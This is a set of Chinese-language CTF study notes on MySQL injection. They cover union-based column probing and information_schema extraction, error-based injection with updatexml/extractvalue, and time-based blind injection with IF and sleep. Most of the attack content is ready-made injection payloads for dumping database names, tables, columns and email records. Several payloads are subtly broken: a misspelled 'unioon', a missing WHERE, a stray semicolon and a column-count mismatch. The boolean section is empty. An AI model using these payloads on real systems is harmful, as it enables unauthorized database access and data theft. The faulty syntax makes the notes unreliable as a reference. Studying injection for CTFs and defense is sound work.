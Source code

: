 ## Union注入攻击

### 判断字段长度
使用order by num。其中num指的就是第几列，由于不存在第几行就会报错。比如 order by 4，这个就是指的是按照第四列排序，如果不存在第四行就会报错
### 判断相关字段类型
使用order by num 可以获取到有几列数据，现在就要获取到每列数据的数据类型。比如上面获取到的是四列数据。则这里就是用

```sql
union select 1,2,3,4 
```


看返回的是哪个数字就可以确认对应的列是可以返回数据的。
### 获取数据
已经获取到了4列数据，并且确认返回的是3，即

```sql
union select 1,2,3,4 
```


返回的是3则说明第三列可以存放变量的。
使用
#### 获取数据库

```sql
id=1 union select 1,2,database(),4
```


成功返回当前使用的数据库，返回的是sql
#### 获取表的名字

```sql
unioon select 1,2,(select table_name from information_schema.tables table_name='sql' limit 0,1),4
```


成功获取返回得到数据表，emails.同时修改limit n,m中的n和m就可以得到不同的表名。
#### 获取字段名  
以emails表为例子。  
1. 查询information_schema中对应的数据

```sql
union select 1,2,(select column_name from information_schema.columns where table_schema='sql' and table_name = 'emails' limit 0,1;),3
```  
2. 使用describe table获取表的数据  
```sql
describe table_name 
```


修改limit值就可以得到全部的字段名

#### 查询数据
现在已经知道了数据库的名字、数据表的名字、字段的名字，要想获取到数据就变得很简单的。以上面获取到的数据库、数据表、字段为例。

```sql
    union select 1,2,(select email_id from sql.emails limit 0,1)
```


修改limit就可以获取到全部的数据


## 报错注入攻击
当sql语句出现错误的时候，如果前端没有进行过滤，就会将报错信息显示出到前端来。所以报错注入的本质，就是从报错中获取信息。
使用updatexml与extractvalue进行注入
updatexml与extractvalue是什么？可以看[这篇文章](https://www.cnblogs.com/laoxiajiadeyun/p/10488731.html).  
简单来说，就是在执行函数的时候，会自动去执行参数字符串。如果字符串参数的内容不符合xpath语法，那么就会报错。
[例题](/notebooks/temp/ctf之web注入/CTF题目/1_sql注入/2_sql注入之报错注入.md)


## boolean注入

返回结果，只有两种情况，比如




## 时间注入
时间注入与boolean注入非常相近，也可以看成是boolean注入的一个子分支。它与Boolean注入的不同之处在于，时间注入是利用sleep() 或benchmark（）等函数让MySQL的执行时间变长。也就是boolean是使用了选择语句，但是时间注入的选择语句中如果被执行，那么就会比平时花费更多的时间，所以也就是两种情况，一条注入语句的执行时间有没有边长。比如下面这条sql语句
1. 利用时间注入查询数据库长度

```sql
    IF(length(database())>1,sleep(5),1)
```


语句的作用在于如果数据库库名的长度大于1 ，则MySQL查询休眠5秒，否则查询1。其中查询l的结果， 大约只有几十毫秒，根据Burp Suite中页面的响应时间，可以判 断条件是否正确。
2. 利用时间注入查询数据库名字

```sql
if(substr(database(),1,1)='s',sleep(5),1)
```


查询当前用户数据库的第一个字母是不是‘s’，如果是s则会暂停5秒
